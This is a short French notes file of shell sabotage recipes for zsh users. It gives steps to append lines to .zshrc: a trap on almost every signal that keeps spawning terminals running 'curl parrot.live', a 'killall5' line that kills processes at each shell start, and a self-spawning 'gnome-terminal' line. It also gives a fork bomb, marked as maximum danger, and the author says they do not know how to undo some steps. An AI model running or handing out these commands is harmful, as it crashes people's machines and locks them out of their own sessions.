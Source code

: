trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA MAIS QUAND MEME BELEK JSP COMMENT ENLEVER /!\

```nano .zshrc``` -> a la toute fin mettre : ```killall5```
```source .zshrc```

[-------------------------------------------------------------]
```nano .zshrc``` -> a la toute fin mettre : ```gnome-terminal```
```source .zshrc```
